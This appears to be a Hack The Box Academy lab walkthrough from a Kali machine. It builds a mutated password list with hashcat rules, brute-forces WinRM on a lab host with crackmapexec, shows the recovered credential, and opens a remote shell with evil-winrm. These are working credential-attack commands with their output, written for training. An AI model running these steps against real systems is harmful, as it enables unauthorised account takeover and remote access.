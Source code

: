 ### Download the resources files

```Bash
┌──(root㉿kali)-[/home/kali/Password_Attacks/HARD]
└─# wget https://academy.hackthebox.com/storage/resources/Password-Attacks.zip
```

### Creating a Mutated Password List

```Bash
hashcat password.list -r custom.rule --stdout | sort -u > mut_password.list
```

### What we have so far?

1. We have the identified username Johanna
2. We have a mutated password list
3. Lets try and crack it
4. We have several services open
5. We have identified there is a winrm service open
6. Lets try and enumerate that

### Brute forcing WinRM with Crackmapexec

```Bash
┌──(root㉿kali)-[/home/kali/Password_Attacks/HARD]
└─# crackmapexec winrm 10.129.202.222 -u Johanna -p easy_pass.txt    
SMB         10.129.202.222  5985   WINSRV           [*] Windows 10 / Server 2019 Build 17763 (name:WINSRV) (domain:WINSRV)
HTTP        10.129.202.222  5985   WINSRV           [*] http://10.129.202.222:5985/wsman
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.202.222  5985   WINSRV           [+] WINSRV\Johanna:1231234! (Pwn3d!)
```

- Just for fast track, i used a simpler wordlist to make the bruteforce faster
- ==[+] WINSRV\Johanna:1231234! (Pwn3d!)==

### Authenticating to winrm with Evil-winrm

```Bash
┌──(root㉿kali)-[/home/kali]
└─# evil-winrm -u Johanna -p 1231234! -i 10.129.202.222
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm\#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\johanna\Documents> 
```
